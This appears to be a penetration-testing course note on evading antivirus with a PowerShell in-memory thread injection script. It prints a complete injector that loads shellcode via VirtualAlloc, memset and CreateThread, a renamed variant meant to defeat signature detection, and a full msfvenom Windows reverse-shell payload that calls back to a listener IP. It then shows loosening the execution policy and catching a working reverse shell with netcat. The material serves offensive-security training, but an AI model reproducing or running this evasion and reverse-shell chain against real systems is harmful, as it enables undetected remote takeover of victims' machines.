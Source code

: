 
# AV Evasion via Thread Injection
You can use a [powershell](../../computers/windows/powershell.md) script to interact with the [Windows](../../computers/windows/README.md) API and implement an [In-Memory Injection](bypassing-antivirus.md#In-Memory%20Evasion)script. The benefit of using a script over a [PE](../../computers/windows/PE.md) is that it's *more difficult* for AV systems to detect a malicious script, since it's execution is *from within an interpreter* (the script itself is not executable). There are some AV products which handle malicious script detection, but not many.
## PowerShell Memory Injection
The following script carries out a *well known* version of memory injection via powershell:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28;
...

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
### Importing Functions & Creating a Thread
The script starts by importing `VirtualAlloc` (allocates memory) and `CreateThread` (creates execution threads), which are both Windows API functions. Specifically, they're being imported from the `kernel32.dll` DLL. Next, the script imports `memset` (writes arbitrary data to allocated memory) from the `msvcrt.dll` DLL. 

So, it's effectively allocating memory and then executing a new thread within the *currently running process* (and not in a remote one). 
### Allocating Memory for the Payload
Next, the script defines `sc` which is where you can *place your shell code* payload. Then, it uses `VirtualAlloc` to allocate memory for the payload. Once the appropriate length/ bytes of memory are allocated, it uses `memset` in a for loop to write our payload to the newly-allocated memory.
### Executing the Payload
Finally, it uses the `CreateThread` API to *create a new thread which will execute our payload*.
## Detection
If we were to upload this script to [Virus-Total](../../cybersecurity/TTPs/recon/tools/reverse-engineering/Virus-Total.md) as is, we would probably see the following:
![](../oscp-pics/thread-injection-1.png)28 of the 59 AV products flagged the script as malicious. But with scripts, AV vendors can only really rely on *static string signatures* related to portions of the code (like variable or function names). If we change some of the recognizable names in our script, then we can make our script less detectable.
### Changing Variable & Function Names
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};
$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
We've changed `winFunc` to `var2` and we've also changed its `Name` property from the `Win32` to `iWin32`. Additionally, we've renames `sc` (our shell code) to `var1`. 
### Testing
Instead of uploading this to Virus Total again (since it will automatically be sent as a sample to all of the participating AV vendors), we can check to see if our shell script is less detectable by running it in a [VM](../../computers/containers-vms/virtual-machines.md) with one of the AV vendor products running (let's say Avira). Once the script is loaded on the VM, we can scan it with Avira (which was one of the vendors which flagged the original script in Virus Total), and see what we get.

With Avira open, we can just click Security --> Quick Scan to scan the whole VM device:
![](../oscp-pics/thread-injection-2.png)If changing the variable and function names worked, this is what we should see.
## Executing our Thread Injection
Once we've decided that our script will not be detected (in the target's environment and based on their AV implementation), we can exploit it. 
### Payload
First, we need a payload for the shell code (`sc`). We can get one from [MSFvenom](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom):
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of powershell file: 1593 bytes
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
```
- `-p`: the payload to use (this one is from [metasploit](../../cybersecurity/TTPs/exploitation/tools/metasploit.md) itself), can also list the parameters after it (`LHOST` and `RHOST` in this case)
- `-f`: the format for the output
- `-v`: a custom variable name (`sc` for our shell code)
### Execution
Let's run our exploit on our Windows VM (with the AV system we've been testing it against). When we execute it in powershell, we'll probagbly see the following output:
```powershell
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
This is because the system's *Execution Policy* prevented our script from running. Execution Policies (in Windows) are set on a *per user* basis. Execution Policies are sometimes dictated by one or more [Active Directory](../../computers/windows/active-directory/active-directory.md#Active%20Directory) Group Policies (GPOs). But if they aren't then we can try to change the policy *for our current user*. 
#### Changing the User's Execution Policy
First, we need to use `Get-ExecutionPolicy` to see what the current policy is:
```powershell
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
```
Right now, it's listed as `Undefined`. Next, we can try to set our new policy by useing the `Set-ExecutionPolicy` cmdlet. We're going to give it the `ExecutionPolicy` flag (to set the new policy as `Unrestricted`) and the `Scope` flag (to limit the change to the current user). 
```powershell
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```
### Listener
Now that we can execute our script, we need to start our [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) listener to listen for our reverse shell:
```bash
nc -lvnp 443
listening on [any] 443 ...
```
Now we can execute our script from the windows VM and see what we get on our netcat listener:
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```
If we get the reverse shell, that means *we successfully evaded the AV system on the VM*. 